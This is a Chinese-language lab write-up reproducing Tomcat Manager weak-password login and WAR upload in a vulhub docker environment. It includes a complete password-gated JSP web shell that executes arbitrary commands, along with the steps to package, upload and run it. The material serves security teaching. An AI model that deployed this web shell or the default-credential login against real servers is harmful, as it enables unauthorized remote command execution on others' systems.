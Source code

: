 # 漏洞复现——Tomcat弱口令与文件上传

# 一、Tomcat与弱口令、文件上传概述

## （一）Tomcat

1. Tomcat是由Apache软件基金会下属Jakarta项目开发的Servlet容器，实现了对Servlet和JavaServer Page（JSP）的支持，并提供了作为Web服务器的一些特有功能。因Tomcat本身也包含HTTP服务器，因此也可视作单独的Web服务器。Tomcat的Servlet引擎通常与Apache或其他Web服务器一起工作。

2. Tomcat7+的权限如下：
   - manager（后台管理）  
   - manager-gui 拥有html页面权限  
   - manager-status 拥有查看status的权限  
   - manager-script 拥有text接口的权限，和status权限  
   - manager-jmx 拥有jmx权限，和status权限
   - host-manager（虚拟主机管理）  
   - admin-gui 拥有html页面权限  
   - admin-script 拥有text接口权限

## （二）Tomcat弱口令

1. 在Tomcat Manager的默认配置中，用户信息是被注释掉的，也就是说，Tomcat中默认没有用户信息，只有当手动修改了conf/tomcat-user.xml时，Tomcat就有可能出现弱口令漏洞。

## （三）Tomcat文件上传

1. war包时用来进行Web开发时一个网站的所有代码，包括前台HTML/CSS、JS和后台JavaWeb的代码，当开发人员开发完毕后，将源码打包给测试人员测试，测试完毕后若要发布则会打包成war包进行发布。
2. war包可以放在Tomcat下的webapps或work目录，当Tomcat服务器启动时，war包即会随之解压源代码来进行自动部署。
3. Tomcat支持后台部署.war文件，可直接部署在Web目录下，当攻击者将一个jsp后门文件压缩成.zip文件并修改后缀为war，即可将jsp后门文件通过Tomcat上传，上传成功后Tomcat将自动解压部署，从而导致后门文件被执行，造成攻击。

# 二、漏洞复现

1. 进入靶机vulhub下的tomcat/tomcat8目录，docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 访问靶机IP:8080/manager/html，输入tomcat/tomcat，成功进入Tomcat的管理页面

   ![1.png](img/TomcatRklUpload/Image1.png)

3. 制作一个jsp马

   ``` jsp
   <%
       if("thisispasswd".equals(request.getParameter("pwd"))){
           java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
           int a = -1;          
           byte[] b = new byte[1024];          
           out.print("<pre>");          
           while((a=in.read(b))!=-1){
               out.println(new String(b));          
           }
           out.print("</pre>");
       }
   %>
   ```

4. 将jsp文件制作成war包

   ``` java
   jar -cvf shell.war shell.jsp
   ```

5. 上传制作好的war包

   ![2.png](img/TomcatRklUpload/Image2.png)

6. 上传成功，返回消息OK，新增目录`/shell`

   ![3.png](img/TomcatRklUpload/Image3.png)

7. 访问jsp木马，路径是/[war包名]/[.jsp文件名]，成功执行任意命令

   ![4.png](img/TomcatRklUpload/Image4.png)
